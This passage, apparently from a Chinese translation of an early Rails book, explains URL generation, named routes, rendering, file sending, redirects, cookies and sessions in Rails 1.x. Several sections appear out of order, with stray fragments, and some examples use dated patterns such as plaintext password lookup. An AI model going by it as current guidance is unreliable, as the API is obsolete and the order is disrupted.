   #=> http://pragprog.com/blog/2002/4/15
```

最后一个需要注意的点。假设一个映射有这样的要求：

```ruby
map.connect "blog/:year/:month/:day",
            :controller    => "blog",
            :action        => "show_date",
            :requirements => { :year   => /(19|20)\d\d/,
                               :month  => /[01]\d/,
                               :day    => /[0-3]\d/},
```

请注意，`:day` 参数要求匹配 `/[0-3]\d/`；它必须是两位数。这意味着，如果你在创建 URL 时传递一个小于 10 的 `Fixnum` 值，这个规则将不会被应用。


### David Says...

#### Pretty URLs Muddle the Model

Rails 不遗余力地为那些被亲切地称为 *漂亮 URL* 的东西提供了最大的灵活性。事实上，这种支持如此深入，以至于你甚至可以让你的模型类也参与其中（天哪！）。这种模型与视图之间的交互似乎违反了 MVC 原则，但请听我解释——这是为了一个很好的目的。

假设你希望你的 URL 看起来像 `/clients/pragprog/agileweb`，所以你使用 `/clients/:client/:project` 作为路由。你可以使用类似下面的代码来生成 URL：

```ruby
url_for :controller => "clients",
       :client     => @company.short_name,
       :project    => @project.code_name
```

这看起来很好，但这意味着在任何需要生成与公司对应的 URL 组件的地方，我们都需要记住调用 `short_name()`，并且每次我们在 URL 中包含一个项目时，都必须调用 `code_name()`。不得不一遍又一遍地记住做同样的事情正是 DRY 原则要防止的，而 Rails 是 DRY 的。

如果一个对象实现了 `to_param()` 方法，那么在为 URL 提供值时，将使用该方法返回的值（而不是 `to_s()`）。通过在 Company 和 Project 中实现适当的 `to_param()` 方法，我们可以将链接生成简化为：

```ruby
url_for :controller => "clients",
       :client     => @company,
       :project    => @project
```

这难道不让你感到温暖和亲切吗？

```ruby
url_for(:year => 2005, :month => 12, :day => 8)
```

因为数字 8 会转换为字符串 `"8"`，而该字符串不是两位数长，所以映射将不会触发。解决方法要么是放宽规则（在要求中使用 `[0-3]?\d` 使前导零可选），要么是确保你传递的是两位数的数字。

```ruby
url_for(:year => year, :month => sprintf("%02d", month), :day => sprintf("%02d", day))
```

### 控制器命名

回到第 235 页，我们说过控制器可以分组到模块中，并且传入的 URL 使用类似于路径的约定来标识这些控制器。一个传入的 URL `http://my.app/admin/book/edit/123` 将会调用 `Admin` 模块中 `BookController` 的 `edit` 动作。

这种映射也影响 URL 生成。

- 如果你没有给 `url_for()` 传递 `:controller` 参数，它会使用当前控制器。
- 如果你传递一个以 `/` 开头的控制器名，那么该名称是绝对的。
- 所有其他控制器名都是相对于发出请求的控制器的模块的。

为了说明这一点，假设一个传入的请求是：

```ruby
http://my.app/admin/book/edit/123

url_for(:action => "edit", :id => 123)
    #=> http://my.app/admin/book/edit/123

url_for(:controller => "catalog", :action => "show", :id => 123)
    #=> http://my.app/admin/catalog/show/123

url_for(:controller => "/store", :action => "purchase", :id => 123)
    #=> http://my.app/store/purchase/123

url_for(:controller => "/archive/book", :action => "record", :id => 123)
    #=> http://my.app/archive/book/record/123
```

既然我们已经了解了映射如何用于生成 URL，现在我们可以全面审视 `url_for()` 方法了。

### `url_for`

```ruby
url_for(option => value, ...)
```

创建一个引用此应用程序中控制器的 URL。`options` 哈希提供了用于填充 URL（基于映射）的参数名及其值。参数值必须与所使用的映射施加的任何约束匹配。某些参数名（在下面的 `Options:` 部分中列出）是保留的，用于填充 URL 的非路径部分。如果你在 `url_for()`（或任何相关方法）中使用 Active Record 模型对象作为值，将会使用该对象的数据库 id。下面代码片段中的两个 `redirect` 调用具有相同的效果。


```ruby
user = User.find_by_name("dave thomas")
redirect_to(:action => 'delete', :id => user.id)

### can be written as
redirect_to(:action => 'delete', :id => user)
```

`url_for()` 也接受单个字符串或符号作为参数。这在 Rails 内部使用。

你可以通过在控制器中实现 `default_url_options()` 方法来覆盖下表中参数的默认值。该方法应返回一个可以传递给 `url_for()` 的参数哈希。

**Options:**

| Option | 类型 | 描述 |
|---|---|---|
| `:anchor` | string | 附加到 URL 的锚点名称。Rails 会自动在前面加上 `#` 字符。 |
| `:host` | string | 设置 URL 中的主机名和端口。使用像 `store.pragprog.com` 或 `helper.pragprog.com:8080` 这样的字符串。默认为传入请求中的主机。 |
| `:only_path` | boolean | 仅生成 URL 的路径部分；省略协议、主机名和端口。 |
| `:protocol` | string | 设置 URL 的协议部分。使用像 `'https://'` 这样的字符串。默认为传入请求的协议。 |
| `:trailing_slash` | boolean | 在生成的 URL 后附加一个斜杠。³ |

> ³如果你同时使用页面或动作缓存（从第390页开始描述），请谨慎使用 `:trailing_slash`。据称，额外的斜杠会混淆缓存算法。

### 命名路由

到目前为止，我们一直在使用匿名路由，这些路由是在 `routes.rb` 文件中使用 `map.connect` 创建的。通常这就足够了；Rails 在根据我们传递给 `url_for()` 及其相关方法的参数选择要生成的 URL 方面做得很好。然而，我们可以通过给路由命名来使我们的应用程序更容易理解。这不会改变传入 URL 的解析，但它让我们能够在代码中明确地使用特定路由生成 URL。

你只需在路由定义中使用 `connect` 以外的名称即可创建命名路由。你使用的名称将成为该特定路由的名称。例如，我们可以这样重写我们的博客路由：

```ruby
Download e1/routing/examples_named.rb

ActionController::Routing::Routes.draw do |map|

  # Straight 'http://my.app/blog/' displays the index
  map.index "blog/",
            :controller   => "blog",
            :action       => "index"

  # Return articles for a year, year/month, or year/month/day
  map.date "blog/:year/:month/:day",
           :controller   => "blog",
           :action       => "show_date",
           :requirements => { :year  => /(19|20)\d\d/,
                               :month => /[01]?\d/,
                               :day   => /[0-3]?\d/},
           :day          => nil,
           :month        => nil

  # Show an article identified by an id
  map.show "blog/show/:id",
           :controller   => "blog",
           :action       => "show",
           :id           => /\d+/

  # Regular Rails routing for admin stuff
  map.admin "blog/:controller/:action/:id"

  # Catch-all so we can gracefully handle badly-formed requests
  map.catchall "*anything",
               :controller   => "blog",
               :action       => "unknown_request"

end
```

在这里，我们将显示索引的路由命名为 `index`，接受日期的路由命名为 `date`，依此类推。我们现在可以使用这些名称。

## 18.4 操作方法

当控制器对象处理请求时，它会寻找与传入操作同名的公共实例方法。如果找到，则调用该方法。如果未找到，但控制器实现了 `method_missing()`，则调用该方法，将操作名称作为第一个参数，空参数列表作为第二个参数传入。如果无法调用任何方法，控制器会寻找以当前控制器和操作命名的模板。如果找到，则直接渲染该模板。如果这些都不发生，则会生成 `Unknown Action` 错误。

默认情况下，控制器中的任何公共方法都可以作为操作方法调用。您可以通过将方法设为 protected 或 private，或使用 `hide_action()` 来阻止特定方法作为操作访问。

```ruby
class OrderController < ApplicationController

  def create_order
    order = Order.new(params[:order])
    if check_credit(order)
      order.save
    else
      # ...
    end
  end

  hide_action :check_credit

  def check_credit(order)
    # ...
  end
end
```

如果您发现自己因为希望在不同控制器之间共享非操作方法而使用 `hide_action()`，请考虑改用 helpers（从第 406 页开始描述）。

### 控制器环境

控制器为操作（以及由此调用的视图）建立环境。环境通过实例变量建立，但您应该使用控制器中相应的访问器方法。

`request`

传入的请求对象。请求对象的有用属性包括：

- `domain()`，返回请求域名的最后两个部分。
- `remote_ip()`，以字符串形式返回远程 IP 地址。如果客户端在代理后面，字符串可能包含多个地址。
- `env()`，请求的环境。您可以使用此属性访问浏览器设置的值，例如 `request.env['HTTP_ACCEPT_LANGUAGE']`。
- `method` 返回请求方法，可以是 `:delete`、`:get`、`:head`、`:post` 或 `:put` 之一。
- `delete?`、`get?`、`head?`、`post?` 和 `put?` 根据请求方法返回 true 或 false。

```ruby
class BlogController < ApplicationController
  def add_user
    if request.get?
      @user = User.new
    else
      @user = User.new(params[:user])
      @user.created_from_ip = request.env["REMOTE_HOST"]
      if @user.save
        redirect_to_index("User #{@user.name} created")
      end
    end
  end
end
```

完整详情请参阅 `ActionController::AbstractRequest` 的 RDoc。

`params`

一个类似哈希的对象，包含请求参数（以及路由期间生成的伪参数）。它类似于哈希，因为您可以使用符号或字符串来索引条目——`params[:id]` 和 `params['id']` 返回相同的值。（惯用的 Rails 应用程序使用符号形式。）

`cookies`

与请求关联的 cookies。将值设置到此对象中会在发送响应时将 cookies 存储在浏览器上。我们将在第 371 页讨论 cookies。

`response`

响应对象，在处理请求期间填充。通常，此对象由 Rails 为您管理。正如我们将在第 386 页查看过滤器时看到的，我们有时会访问其内部结构进行专门处理。

`session`

一个类似哈希的对象，表示当前会话数据。我们将在第 373 页描述。

`headers`

一个用于响应的 HTTP 头部哈希。默认情况下，`Cache-Control` 设置为 `no-cache`。对于特殊用途的应用程序，您可能需要设置 `Content-Type` 头部。请注意，您不应该直接在头部中设置 cookie 值——请使用 cookie API 来完成此操作。

此外，整个 Action Pack 中都可以使用 logger。我们将在第 237 页描述它。

### 响应用户

控制器工作的一部分是响应用户。基本上有三种方式：

- 最常见的方式是渲染模板。在 MVC 范式中，模板是视图，它接收控制器提供的信息并用其生成对浏览器的响应。
- 控制器可以不调用视图而直接返回字符串给浏览器。这相当罕见，但可用于发送错误通知。
- 控制器可以向客户端发送其他数据（非 HTML）。这通常是某种下载（可能是 PDF 文档或文件内容）。

我们稍后将更详细地查看这三种方式。

每个请求，控制器始终只响应用户一次。这意味着在处理每个请求时，您应该只调用一次 `render()` 或 `send_xxx()` 方法。（第二次渲染会抛出 `DoubleRenderError` 异常。）未文档化的方法 `erase_render_results()` 会丢弃当前请求中先前渲染的效果，允许进行第二次渲染。使用风险自负。

因为控制器必须响应一次，它在完成处理请求之前会检查是否已生成响应。如果没有，控制器会寻找以控制器和操作命名的模板并自动渲染它。这是渲染最常见的方式。您可能已经注意到，在我们购物车教程的大多数操作中，我们从未显式渲染任何内容。相反，我们的操作方法设置视图的上下文并返回。控制器注意到没有发生渲染，并自动调用相应的模板。

### 渲染模板

模板是为应用程序定义响应内容的文件。Rails 默认支持两种模板格式：`rhtml`，即嵌入 Ruby 代码的 HTML，以及 builder，一种更具编程性的内容构造方式。我们从第 400 页开始讨论这些文件的内容。

按照惯例，控制器 control 的操作 action 的模板将位于文件 `app/views/control/action.rhtml` 或 `app/views/control/action.xml`（`.rxml` 扩展名表示 builder 风格的模板）。`app/views` 部分是默认路径。可以通过设置来为整个应用覆盖：

```ruby
ActionController::Base.template_root = dir_path
```

`render()` 方法是 Rails 中所有渲染的核心。它接受一个选项哈希，告诉它要渲染什么以及如何渲染。让我们看看控制器中使用的渲染选项（我们将在第 435 页单独查看视图中的渲染）。

```ruby
render(:text => string)
```

将给定的字符串发送给客户端。不执行模板解释或 HTML 转义。

```ruby
class HappyController < ApplicationController
  def index
    render(:text => "Hello there!")
  end
end
```

```ruby
render(:inline => string, [:type => "rhtml"|"rxml"])
```

将字符串解释为给定类型的模板源，并将结果渲染回客户端。

以下代码在应用程序以开发模式运行时向控制器添加了 `method_missing()`。如果控制器被调用时操作无效，它会渲染一个内联模板来显示操作的名称和请求参数的格式化版本。

```ruby
class SomeController < ApplicationController

  if RAILS_ENV == "development"
    def method_missing(name, *args)
      render(:inline => %{
        <h2>Unknown action: #{name}</h2>
        Here are the request parameters:<br/>
        <%= debug(params) %> })
    end
  end
end
```

```ruby
render(:action => action_name)
```

渲染此控制器中给定操作的模板。有时人们在应该使用重定向时错误地使用了 `:action` 形式的 `render()`——为什么这是一个坏主意，请参阅从第 368 页开始的讨论。

```ruby
def display_cart
  if @cart.empty?
    render(:action => :index)
  else
```

通过在名称后附加 `_url` 并像使用 `url_for()` 一样使用它们，可以生成 URL。因此，要生成博客索引的 URL，我们可以使用：

```ruby
@link = index_url
```

这将使用第一个路由构造一个 URL，结果如下：

```text
http://pragprog.com/blog/
```

您可以将额外的参数作为哈希传递给这些命名路由。参数将被添加到特定路由的默认值中。以下示例说明了这一点。

```ruby
index_url
#=> http://pragprog.com/blog

date_url(:year => 2005)
#=> http://pragprog.com/blog/2005

date_url(:year => 2003, :month => 2)
#=> http://pragprog.com/blog/2003/2

show_url(:id => 123)
#=> http://pragprog.com/blog/show/123
```

您可以在任何需要 URL 参数的地方使用 `xxx_url` 方法。因此，您可以使用以下代码重定向到索引页面。

```ruby
redirect_to(index_url)
```

在视图模板中，您可以使用以下方式创建指向索引的超链接：

```erb
<%= link_to("Index", index_url) %>
```

### ...

```ruby
end
end
```

### `render(:file => path, [:use_full_path => true|false])`

渲染给定路径（必须包含文件扩展名）中的模板。默认情况下，这应该是模板的绝对路径，但如果 `:use_full_path` 选项为 `true`，视图将在你传入的路径前加上模板基础路径的值。模板基础路径在你的应用程序配置中设置（在第 230 页有描述）。

### `render(:template => name)`

渲染一个模板，并安排将生成的文本发送回客户端。`:template` 值必须包含新名称的控制器和操作部分，用正斜杠分隔。以下代码将渲染模板 `app/views/blog/short_list`。

```ruby
class BlogController < ApplicationController
  def index
    render(:template => "blog/short_list")
  end
end
```

### `render(:partial => name, ...)`

渲染一个局部模板。我们将在第 435 页深入讨论局部模板。

### `render(:nothing => true)`

什么都不返回——向浏览器发送一个空的响应体。

### `render()`

没有覆盖参数时，`render()` 方法渲染当前控制器和操作的默认模板。以下代码将渲染模板 `app/views/blog/index`。

```ruby
class BlogController < ApplicationController
  def index
    render
  end
end
```

以下代码同样会渲染该模板（因为控制器的默认行为是：如果操作没有调用 `render()`，则调用 `render()`）。

```ruby
class BlogController < ApplicationController
  def index
  end
end
```

以下代码也会（因为如果没有定义操作方法，控制器将直接调用一个模板）。

```ruby
class BlogController < ApplicationController
end
```

所有形式的 `render` 调用都接受可选的 `:status` 和 `:layout` 参数。`:status` 参数用于在 HTTP 响应中设置状态头。它默认为 `"200 OK"`。不要使用 `render()` 配合 3xx 状态码来执行重定向；Rails 为此目的提供了 `redirect()` 方法。


`:layout` 参数决定渲染结果是否会被布局包装（我们首先在第 91 页遇到布局，我们将从第 432 页开始深入研究它们）。如果参数为 `false`，则不应用任何布局。如果设置为 `nil` 或 `true`，则仅在当前操作有关联布局时才应用布局。如果 `:layout` 参数的值是一个字符串，它将被视为渲染时要使用的布局名称。当 `:nothing` 选项生效时，从不应用布局。

有时，能够将原本会发送给浏览器的内容捕获到一个字符串中是很有用的。`render_to_string()` 接受与 `render()` 相同的参数，但将渲染结果作为字符串返回——渲染结果不会存储在响应对象中，因此除非你采取一些额外的步骤，否则不会发送给用户。

### 发送文件和其他数据

我们已经研究了在控制器中渲染模板和发送字符串。第三种类型的响应是将数据（通常是，但不一定是文件内容）发送给客户端。

### `send_data`

将包含二进制数据的字符串发送给客户端。

`send_data(data, options...)`

将数据流发送给客户端。通常，浏览器会结合使用内容类型和处置方式（两者都在选项中设置）来确定如何处理此数据。

```ruby
def sales_graph
  png_data = Sales.plot_for(Date.today.month)
  send_data(png_data, :type => "image/png", :disposition => "inline")
end
```

选项：

- `:filename` 字符串：向浏览器建议保存此数据时使用的默认文件名。
- `:type` 字符串：内容类型，默认为 `application/octet-stream`。
- `:disposition` 字符串：向浏览器建议文件应内联显示（选项 `inline`）还是下载并保存（选项 `attachment`，默认值）。

### `send_file`

将文件内容发送给客户端。

`send_file(path, options...)`

将给定文件发送给客户端。该方法设置 `Content-Length`、`Content-Type`、`Content-Disposition` 和 `Content-Transfer-Encoding` 头。

选项：

- `:filename` 字符串：向浏览器建议保存文件时使用的默认文件名。如果未设置，则默认为 `path` 的文件名部分。
- `:type` 字符串：内容类型，默认为 `application/octet-stream`。
- `:disposition` 字符串：向浏览器建议文件应内联显示（选项 `inline`）还是下载并保存（选项 `attachment`，默认值）。
- `:streaming` `true` 或 `false`：如果为 `false`，整个文件将被读入服务器内存并发送给客户端。否则，文件将按 `:buffer_size` 分块读取并写入客户端。

你可以使用控制器中的 `headers` 属性为任何一种 `send_` 方法设置额外的头信息。

```ruby
def send_secret_file
  send_file("/files/secret_list")
  headers["Content-Description"] = "Top secret"
end
```

我们将在第 **425** 页开始展示如何上传文件。

### 重定向

HTTP 重定向是从服务器发送到客户端的响应，以回应一个请求。实际上，它说的是：“我无法处理这个请求，但这里有能处理的人。”重定向响应包含一个客户端接下来应该尝试的 URL，以及一些状态信息，说明此重定向是永久的（状态码 301）还是临时的（状态码 307）。当网页重组时，重定向有时会被使用；访问旧位置页面的客户端会被引导到页面的新主页。

重定向在幕后由 Web 浏览器处理。通常，你发现自己被重定向的唯一方式是轻微的延迟，以及你正在查看的页面的 URL 已经从你请求的 URL 发生了变化。后一点很重要——就浏览器而言，来自服务器的重定向与终端用户手动输入新的目标 URL 基本相同。

在编写行为良好的 Web 应用程序时，重定向被证明是重要的。

让我们看一个支持评论发布的简单博客应用程序。用户发布评论后，我们的应用程序应该重新显示文章，大概是把新评论放在最后。使用如下逻辑来编码这个功能是很诱人的。

```ruby
class BlogController
  def display
    @article = Article.find(params[:id])
  end

  def add_comment
    @article = Article.find(params[:id])
    comment  = Comment.new(params[:comment])
    @article.comments << comment
    if @article.save
      flash[:note] = "Thank you for your valuable comment"
    else
      flash[:note] = "We threw your worthless comment away"
    end
    render :action => :display
  end
end
```

### 不要这样做

```ruby
render(:action => 'display')
end
end
```

这里的意图显然是在评论发布后显示文章。为此，开发者以对 `render(:action=>'display')` 的调用结束了 `add_comment()` 方法。这会渲染 `display` 视图，向终端用户显示更新后的文章。但请从浏览器的角度思考这一点。它发送一个以 `blog/add_comment` 结尾的 URL，并得到了一个索引列表。就浏览器而言，当前 URL 仍然是那个以 `blog/add_comment` 结尾的 URL。这意味着，如果用户点击刷新（也许是想看看是否有人发布了其他评论），`add_comment` URL 将再次发送给应用程序。用户的意图是刷新显示，但应用程序看到的却是添加另一条评论的请求。在博客应用程序中，这种无意的双重条目是不方便的。在在线商店中，这可能会造成损失。

在这种情况下，要正确显示添加的评论，正确的方法是将浏览器重定向到 `display` 操作。我们使用 Rails 的 `redirect_to()` 方法来做到这一点。如果用户随后点击刷新，它将只是重新调用 `display` 操作，而不会添加另一条评论。

```ruby
def add_comment
  @article = Article.find(params[:id])
  comment = Comment.new(params[:comment])
  @article.comments << comment
  if @article.save
    flash[:note] = "Thank you for your valuable comment"
  else
    flash[:note] = "We threw your worthless comment away"
  end
  redirect_to(:action => 'display')
end
```

Rails 拥有一个简单而强大的重定向机制。它可以重定向到给定控制器中的操作（传递参数）、当前服务器上的 URL 或任意 URL。让我们依次看看这三种形式。

### `redirect_to`

重定向到某个操作。

`redirect_to(options...)`

根据选项哈希表中的值，向浏览器发送临时重定向。目标 URL 使用 `url_for()` 生成，因此这种形式的 `redirect_to()` 背后蕴含了 Rails 路由代码的所有智能。详见第 348 页的第 18.3 节“路由请求”。

### `redirect_to`

重定向到应用程序中的固定路径。

`redirect_to(path)`

重定向到给定的路径。该路径应以 `/` 开头，相对于当前请求的协议、主机和端口。此方法不会对 URL 执行任何重写，因此不应用于创建旨在链接到应用程序操作的路径。

```ruby
def save
  order = Order.new(params[:order])
  if order.save
    redirect_to :action => "display"
  else
    session[:error_count] ||= 0
    session[:error_count] += 1
    if session[:error_count] < 4
      flash[:notice] = "Please try again"
    else
      # Give up -- user is clearly struggling
      redirect_to("/help/order_entry.html")
    end
  end
end
```

### `redirect_to`

重定向到绝对 URL。

`redirect_to(url)`

重定向到给定的完整 URL，该 URL 必须以协议名（如 `http://`）开头。

```ruby
def portal_link
  link = Links.find(params[:id])
  redirect_to(link.url)
end
```

默认情况下，所有重定向都被标记为临时（仅影响当前请求）。在重定向到 URL 时，你可能希望使重定向成为永久性的。在这种情况下，应在响应头中相应设置状态。

```ruby
headers["Status"] = "301 Moved Permanently"
redirect_to("http://my.new.home")
```

由于重定向方法向浏览器发送响应，因此适用于渲染方法的相同规则也适用——每个请求只能发出一个。

## 18.5 Cookie 和 Session

Cookie 允许 Web 应用程序从浏览器会话中获得类似哈希表的功能：你可以在客户端浏览器上存储命名的字符串，并在后续请求中按名称检索值。

这一点很重要，因为浏览器和 Web 服务器之间使用的 HTTP 协议是无状态的。Cookie 提供了一种克服此限制的方法，允许 Web 应用程序在请求之间维护数据。

Rails 将 Cookie 抽象在一个便捷且简单的接口后面。控制器属性 `cookies` 是一个类似哈希表的对象，它包装了 Cookie 协议。当接收到请求时，`cookies` 对象将初始化为从浏览器发送到应用程序的 Cookie 名称和值。应用程序可以随时向 `cookies` 对象添加新的键/值对。这些将在请求处理完成后发送到浏览器。这些新值将在后续请求中可供应用程序使用（受以下描述的各种限制）。

这是一个简单的 Rails 控制器示例，它在用户浏览器中存储一个 Cookie 并重定向到另一个操作。请记住，重定向涉及与浏览器的往返，并且后续对应用程序的调用将创建一个新的控制器对象。新操作恢复从浏览器发送上来的 Cookie 值并显示它。

```ruby
class CookiesController < ApplicationController

  def action_one
    cookies[:the_time] = Time.now.to_s
    redirect_to :action => "action_two"
  end

  def action_two
    cookie_value = cookies[:the_time]
    render(:text => "The cookie says it is #{cookie_value}")
  end
end
```

你必须将字符串作为 Cookie 值传递——不会执行隐式转换。如果你传递其他内容，可能会得到一个包含 `private method ‘gsub’ called…` 的晦涩错误。

浏览器为每个 Cookie 存储一小部分选项：过期日期和时间、与 Cookie 相关的路径，以及 Cookie 将被发送到的域。如果你通过向 `cookies[name]` 赋值来创建 Cookie，你将获得这些选项的默认集：Cookie 将应用于整个站点，永不过期，并应用于执行设置的主机的域。但是，可以通过传递值哈希表而不是单个字符串来覆盖这些选项。（在此示例中，我们使用了 `Fixnum` 的扩展方法 `#days.from_now`。这在 **15** 章 *Active Support* 的第 **241** 页中进行了描述。）

```ruby
cookies[:marsupial] = { :value    => "wombat",
                      :expires  => 30.days.from_now,
                      :path     => "/store" }
```

有效选项是 `:domain`、`:expires`、`:path`、`:secure` 和 `:value`。`:domain` 和 `:path` 选项决定了 Cookie 的相关性——如果 Cookie 路径与请求路径的开头部分匹配，并且 Cookie 的域与请求域的尾部匹配，浏览器将把 Cookie 发送回服务器。`:expires` 选项为 Cookie 的生命周期设置时间限制。它可以是一个绝对时间，在这种情况下，浏览器会将 Cookie 存储在磁盘上，并在时间到达时删除它，^4 或者是一个空字符串，在这种情况下，浏览器会将其存储在内存中，并在浏览会话结束时删除它。如果没有给出过期时间，则 Cookie 是永久的。最后，`:secure` 选项告诉浏览器仅在请求使用 `https://` 时才发回 Cookie。

使用 Cookie 的问题是，有些用户不喜欢它们，并在浏览器中禁用了 Cookie 支持。你需要设计你的应用程序，使其在缺少 Cookie 的情况下依然健壮。（它不需要完全功能；它只需要能够处理缺失数据。）

> ^4 此时间是绝对的，在创建 Cookie 时设置。如果你的应用需要设置一个在用户上次发送请求后若干分钟过期的 Cookie，你需要在每个请求上重置 Cookie，或者（更好的方法是）将会话过期时间保存在服务器的会话数据中并在此处更新。

Cookie 非常适合在用户的浏览器上存储小字符串，但对于更大数量、更结构化的数据则效果不佳。为此，你需要会话。

### Rails Session

Rails 会话是一种类似哈希表的结构，它在请求之间持续存在。与原始 Cookie 不同，会话可以容纳任何对象（只要这些对象可以被编组），这使得它们非常适合在 Web 应用程序中保存状态信息。例如，在我们的商店应用程序中，我们使用了一个会话在请求之间保存购物车对象。`Cart` 对象可以在我们的应用程序中像任何其他对象一样使用。但 Rails 安排了这样的方式：购物车在每个请求处理结束时被保存，更重要的是，当 Rails 开始处理传入的请求时，会为该请求恢复正确的购物车。使用会话，我们可以假装我们的应用程序在请求之间一直存在。

这有两个部分。首先，Rails 必须跟踪会话。它通过创建（默认）一个 32 位十六进制字符的密钥来实现这一点（这意味着有 $16^{32}$ 种可能的组合）。这个密钥称为 `session id`，它实际上是随机的。Rails 将此会话 ID 作为 Cookie（键为 `_session_id`）存储在用户的浏览器上。当来自此浏览器的后续请求进入应用程序时，Rails 可以恢复会话 ID。

Rails 在服务器上保存会话数据的持久存储，按会话 ID 索引。这是会话魔法的第二部分。当请求到来时，Rails 使用会话 ID 查找数据存储。它在那里找到的数据是一个序列化的 Ruby 对象。它反序列化该对象并将结果存储在控制器的 `session` 属性中，供我们的应用程序代码使用。应用程序可以根据需要添加和修改这些数据。在完成每个请求的处理后，Rails 会将会话数据写回数据存储。数据会在那里保存，直到来自此浏览器的下一个请求到来。

你应该在会话中存储什么？任何你想要的东西，但有一些限制和注意事项。

- 对可以在会话中存储的对象类型有一些限制。细节取决于你选择的存储机制（我们很快会看到）。在一般情况下，会话中的对象必须是可序列化的（使用 Ruby 的 `Marshal` 函数）。例如，这意味着你不能将会话存储 I/O 对象。

### 会话管理

如果你在会话中存储了任何 Rails 模型对象，就必须为它们添加模型声明。这会使 Rails 预加载模型类，以便当 Ruby 从会话存储中反序列化它时，其定义是可用的。如果会话的使用仅限于一个控制器，那么该声明可以放在该控制器的顶部。

```ruby
class BlogController < ApplicationController
  model :user_preferences
  # . . .
end
```

但是，如果会话可能被另一个控制器读取（在任何包含多个控制器的应用程序中，这很常见），你可能需要将声明添加到全局的 `application_controller.rb` 文件（位于 `app/controllers`）中。

- 你可能不希望在会话数据中存储巨大的对象——将它们放入数据库，并在会话中引用它们。
- 你可能不希望在会话数据中存储易变的对象。例如，你可能想出于性能原因，统计博客中的文章数量并将其存储在会话中。但是，如果你这样做，当其他用户添加文章时，计数将不会更新。

将代表当前登录用户的对象存储在会话数据中很有诱惑力。如果你的应用程序需要能够使用户失效，这可能不明智。即使一个用户在数据库中被禁用，他们的会话数据仍将反映有效状态。

应将易变数据存储在数据库中，并在会话中引用它们。

- 你可能不希望仅在会话数据中存储关键信息。例如，如果你的应用程序在一个请求中生成订单确认号并将其存储在会话数据中，以便在处理下一个请求时将其保存到数据库，那么如果用户从浏览器中删除 Cookie，你就有丢失该号码的风险。关键信息需要存储在数据库中。


还有一个注意事项，而且是一个大问题。如果你将一个对象存储在会话数据中，那么下次你回到该浏览器时，你的应用程序最终会检索该对象。然而，如果在此期间你更新了应用程序，会话数据中的对象可能与你的应用程序中该对象类的定义不一致，应用程序将在处理请求时失败。

这里有三个选择：

1. 一个是使用常规模型将对象存储在数据库中，只在会话中保留行的 ID。模型对象比 Ruby 的编组库更能容忍模式变更。
2. 第二个选项是每当更改存储在会话数据中的类定义时，手动删除服务器上存储的所有会话数据。
3. 第三个选项稍微复杂一些。如果你在会话键中添加版本号，并在每次更新存储的数据时更改该号码，那么你将只加载与当前应用程序版本对应的数据。你可以潜在地为那些对象存储在会话中的类进行版本控制，并根据与每个请求关联的会话键使用相应的类。

这最后一种方法可能需要大量的工作，因此你需要决定是否值得付出努力。

因为会话存储是类似哈希的，你可以在其中保存多个对象，每个对象都有自己的键。在下面的代码中，我们将登录用户的 ID 存储在会话中。我们稍后在 `index` 动作中使用它来为该用户创建一个定制菜单。我们还记录最后选择的菜单项的 ID，并使用该 ID 在索引页上突出显示选择。当用户登出时，我们重置所有会话数据。

```ruby
class SessionController < ApplicationController

  def login
    user = User.find_by_name_and_password(params[:user], params[:password])

    if user
      session[:user_id] = user.id
      redirect_to :action => "index"
    else
      reset_session
      flash[:note] = "Invalid user name/password"
    end
  end

  def index
    @menu = create_menu_for(session[:user_id])
    @menu.highlight(session[:last_selection])
  end

  def select_item
    @item = Item.find(params[:id])
    session[:last_selection] = params[:id]
  end

  def logout
    reset_session
  end
end
```

就像 Rails 中通常的情况一样，会话默认值很方便，但如果需要，我们可以覆盖它们。对于会话，选项是全局的，因此你通常会在你的环境文件（`config/environment.rb` 或 `config/environments` 中的一个文件）中设置它们。⁵

与 Rails 通常情况不同的是，没有漂亮的 API 来设置选项：你只需直接将值设置到 `DEFAULT_SESSION_OPTIONS` 哈希中。例如，如果你想更改应用程序使用的 cookie 名称（如果你计划从同一主机运行多个 Rails 应用程序，这几乎是必须的），你可以将以下内容添加到环境文件中。

```ruby
ActionController::CgiRequest::DEFAULT_SESSION_OPTIONS[:session_key] = 'my_app'
```

可用的会话选项有：

- `:database_manager`：控制会话数据在服务器上的存储方式。我们稍后将对此进行更多讨论。
- `:session_domain`：用于在浏览器上存储会话 ID 的 cookie 的域名。默认为应用程序的主机名。
- `:session_id`：覆盖默认的会话 ID。如果未设置，新会话会自动创建一个 32 个字符的 ID。然后在后续请求中使用此 ID。
- `:session_key`：用于存储会话 ID 的 cookie 的名称。你将需要在你的应用程序中覆盖此设置，如前所述。
- `:session_path`：此会话适用的请求路径（实际上是 cookie 的路径）。默认为 `/`，因此它适用于此域中的所有应用程序。
- `:session_secure`：如果为 `true`，会话将仅通过 `https://` 启用。默认为 `false`。

> ⁵ 有一个例外——你不能以这种方式设置会话过期时间。

- `:new_session`：直接映射到底层 cookie 的 `new_session` 选项。但是，此选项在 Rails 下可能无法按你需要的方式工作，我们将在第 18.8 节《缓存页面的基于时间的过期》（第 396 页）中讨论替代方案。
- `:session_expires`：此会话过期的绝对时间。与 `:new_session` 一样，此选项可能不应在 Rails 下使用。

此外，你可以指定依赖于存储类型的选项。例如，如果你选择使用 PStore 数据库管理器来存储会话数据，你可以控制 Rails 存储文件的位置以及它给各个文件名的前缀。

```ruby
class DaveController < ApplicationController

  session_options = ::ActionController::CgiRequest::DEFAULT_SESSION_OPTIONS
  session_options[:tmpdir] = "/Users/dave/tmp"
  session_options[:prefix] = "myapp_session_"

  # ...
end
```

有关这些选项的详细信息，请参阅标准 Ruby 发行版中 `CGI::Session` 的文档。

### 会话存储

在存储会话数据方面，Rails 有多种选择。每种都有优缺点。我们将首先列出选项，最后进行比较。

会话存储机制使用 `DEFAULT_SESSION_OPTIONS` 哈希中的 `:database_manager` 参数进行设置。可选项有：

- `:database_manager => CGI::Session::PStore`

  这是 Rails 使用的默认会话存储机制。每个会话的数据以 PStore 格式的扁平文件存储。此格式将对象保持在其编组形式，允许将任何可序列化的数据存储在会话中。此机制支持额外的配置选项 `:prefix` 和 `:tmpdir`。

- `:database_manager => CGI::Session::ActiveRecordStore`

  你可以使用 ActiveRecordStore 将会话数据存储在应用程序的数据库中。创建一个名为 `sessions` 的表，使用以下 DDL（这是 MySQL 版本——你可能需要为你的数据库引擎稍作调整）。此存储使用 YAML 序列化其对象。

  ```sql
  create table sessions (
    id              int(11)       not null auto_increment,
    sessid          varchar(255),
    data            text,
    updated_at      datetime      default NULL,
    primary key(id),
    index           session_index (sessid)
  );
  ```

